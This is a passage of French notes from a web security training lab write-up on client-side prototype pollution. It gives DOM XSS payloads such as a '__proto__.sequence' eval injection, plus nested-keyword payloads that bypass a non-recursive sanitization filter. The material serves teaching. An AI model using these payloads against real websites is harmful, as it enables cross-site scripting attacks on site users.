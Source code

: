 #### Solution avec DOM Invader

Pareil que le lab précédent

### DOM XSS via an alternative prototype pollution vector

#### Solution manuelle

Même fonctionnement mais avec un eval() dans un fichier searchLoggerAlternative.js qui reçoit un "manager.sequence".

Cependant, le payload **"/?__proto__.sequence=alert(1)"** ne marche pas directement, et en mettant un breakpoint sur l'erreur générée puis en relançant la page on voit qu'un '1' est ajouté après le alert() et que le résultat obtenu est "alert(1)1" au lieu de "alert(1)"

Mais un simple '-' permet d'éviter cela.

Payload final : 

    /?__proto__.sequence=alert(1)-

#### Solution avec DOM Invader

Pareil que le lab précédent

### Client-side prototype pollution via flawed sanitization

#### Solution manuelle

Test de quelques payloads classiques : 

    /?__proto__.foo=bar
    /?__proto__[foo]=bar
    /?constructor.prototype.foo=bar
    
Rien ne fonctionne à cause d'une fonction de sanitization que l'on peut voir dans le fichier **searchLoggerFiltered.js** importé dans le code source : 

    function sanitizeKey(key) {
        let badProperties = ['constructor','__proto__','prototype'];
        for(let badProperty of badProperties) {
            key = key.replaceAll(badProperty, '');
        }
        return key;
    }

Cette fonction filtre les "__proto__" mais pas de manière récursive, on peut donc la contourner facilement avec des payloads du genre :

    /?__pro__proto__to__[foo]=bar
    /?__pro__proto__to__.foo=bar
    /?constconstructorructor[protoprototypetype][foo]=bar
    /?constconstructorructor.protoprototypetype.foo=bar
    
Dans le fichier **searchLogger.js** on voit que le site utilise l'objet "transport_url" comme dans les premiers cas de figure.
